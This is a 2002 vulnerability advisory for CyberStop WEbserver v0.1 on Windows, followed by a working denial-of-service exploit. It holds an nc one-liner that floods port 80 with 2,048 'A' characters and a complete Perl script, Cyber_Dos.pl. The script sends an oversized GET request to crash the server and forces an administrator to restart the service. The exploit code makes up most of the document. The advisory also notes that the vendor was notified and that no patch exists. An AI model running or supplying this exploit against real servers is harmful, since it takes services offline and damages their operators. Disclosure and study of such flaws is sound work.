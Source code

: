 INFO
----

    ------oOo------
    CyberStop WEbserver DoS Remote attacks.
    ------oOo------

    CyberStop WEbserver for Windows 9x/NT/2000 contains remote vulnerabilities
    which allow users to attack remote services on the server.
    Exploit information included.

    Company Affected: www.cyberstop.com.sg
    Download: http://www.cyberstop.com.sg/webserver/webserver.zip
    Version: v0.1
    Date Added: 12-DIC-01
    Size: 2.84 MB
    OS Affected: Windows ALL.

    Author:

    ** Alex Hernandez <al3xhernandez@ureach.com>
    ** Thanks all the people from Spain and Argentina.
    ** Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins
    ** G.Maggiotti & H.Oliveira.

    ----=[Brief Description]=------------

    Proof Of concept

    # uname -a
    SunOS Lab 5.8 Generic_108528-03 sun4u sparc SUNW,Ultra-5_10
    #

    # perl -e ' for ($i=1;$i<2049;$i++) { print "A";} ' | nc 10.0.0.1 80
    #

    Exist a service named "Proyect1" and may be u can reading something
    like this on Windows Server:

    "Run-time error 40006":
    Wrong protocol or connection state for the request transaction or
    request.

    "Run-time error "5":
    Invalid procedure call or argument.

    Crash system and the admin need restart the service!.

    ------oOo------------------------------------
    Vendor Response:
    The vendor was notified
    help@cyberstopasia.com
    http://www.cyberstop.com.sg
    Patch Temporary: No Data of vendor.

    Alex Hernandez <al3xhernandez@ureach.com> (c) 2002.

    ------oOo------------------------------------

Cyber_Dos.pl
-------------

    #!/usr/bin/perl
    # Simple script to send a long 'A^s' command to the server,
    # resulting in the server crashing.
    #
    # CyberStop WEbserver v0.1 proof-of-concept exploit
    # By Alex Hernandez <al3xhernandez@ureach.com> (C)2002.
    #
    # Thanks all the people from Spain and Argentina.
    # Special Greets: White-B, Pablo S0r, Paco Spain, L.Martins,
    # G.Maggiotti & H.Oliveira.
    #
    #
    # Usage: perl -x Cyber_DoS.pl -s <server>
    #
    # Example:
    #
    # perl -x Cyber_DoS.pl -s 10.0.0.1
    #
    # Crash was successful !
    #

    use Getopt::Std;
    use IO::Socket;

    print("\nCyberStop WEbserver v0.1 DoS exploit (c)2002.\n");
    print("Alex Hernandez al3xhernandez\@ureach.com\n\n");

    getopts('s:', \%args);
    if(!defined($args{s})){&usage;}

    ($serv,$port,$def,$num,$data,$buf,$in_addr,$paddr,$proto);

    $def = "A";
    $num = "3000";
    $data .= $def x $num;
    $serv = $args{s};
    $port = 80;
    $buf = "GET /$data /HTTP/1.0\r\n\r\n";


    $in_addr = (gethostbyname($serv))[4] || die("Error: $!\n");
    $paddr = sockaddr_in($port, $in_addr) || die ("Error: $!\n");
    $proto = getprotobyname('tcp') || die("Error: $!\n");

    socket(S, PF_INET, SOCK_STREAM, $proto) || die("Error: $!");
    connect(S, $paddr) ||die ("Error: $!");
    select(S); $| = 1; select(STDOUT);
    print S "$buf";


    print("\nCrash was successful !\n\n");

    sub usage {die("\n\nUsage: perl -x $0 -s <server>\n\n");}